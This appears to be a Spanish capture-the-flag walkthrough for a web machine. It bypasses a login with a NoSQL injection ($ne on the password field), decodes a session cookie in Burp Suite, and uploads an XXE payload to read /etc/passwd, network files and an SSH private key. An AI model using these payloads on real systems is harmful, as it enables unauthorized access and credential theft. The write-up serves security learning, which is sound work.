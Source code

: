 Asi seria aplicando No-SQLI
{
	“user” : “admin”,
	“password” : {“$ne”:“man”}
}

Lo acepta ya que el **content-lenght** cambia y ya no es **1040 si no ahora es 2584**, tambien miramos la bienvenida.

Dentro de la paginaweb en el navegador podemos ir a inspeccionar el codigo y en la parte de **Almacenamiento** podemos ver una **Cookie de Sesion** en la cual en su valor esta en formato **Url Encode** por lo que  si nos vamos al Burpsuite en la parte de Encode podemos pegar esa Cookie y despues en la partde derecha seleccionar **Decode as… y Colocar Url** para asi poder observar el contenido que en este caso es un usuario y firma.

❯ **pushd /home/omar/Downloads/Firefox** El comando pushd nos permitirá crear una lista o pila de directorios enumerada. 
Una vez creada la pila o lista de directorios el comando cd nos permitirá ir de forma rápida y sencilla a cualquier directorio almacenado en la pila o lista de directorios. 
❯ **popd** Para regresarnos al directorio en el que estabamos solo ponemos el comando. 

Dentro de ese directorio no creamos un archivo asi para subirlo a la web:
Nos damos cuenta que el documento que nos deja subir tiene que ser **Xml** de la siguiente manera y eso lo vimos con el **Ctrl+ u** en la pagina.

Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯Omar was here❮/markdown❯
	❮/post❯

Vemos que nos reporta lo mismo en la pagina web por lo que ahora buscamos en Google en la pagina (Payloadallthethings) de GitHub y filtramos por **XXE Injection** y nos dirigimos a la parte de **classic XXE**.

Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮?xml version=”1.0” encoding=”ISO-8859-1”?❯
		❮!DOCTYPE foo \[
		❮!ELEMENT foo ANY❯
	❮!ENTITY xxe SYSTEM “file:////etc/passwd”❯]❯
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯&xxe;❮/markdown❯
	❮/post❯

Asi deberiamos crear el archivo donde se llama xxe y en la parte de SYSTEM es donde nosotros podemos cambiar el comando que queremos que nos ejecute la pagina web y todo nos lo mostrara en el campo markdown. 

Comandos que podemos meter en SYSTEM: 
**\file:///proc/net/fib_trie** Que nos muestra las direcciones IP que se encuetran ahi en la maquina 
**\file:///proc/net/tcp** Que nos muestra los puerto abiertos pero de manera interna, miramos que vienen en fomato hexadecimal y podemos desconvertirlos en alguna pagina web.
**\file:///etc/passwd** Ver los usuarios de la maquina 
**\file:///home/admin/.ssh/id_rsa** Tratar de listar la id_rsa de la maquina
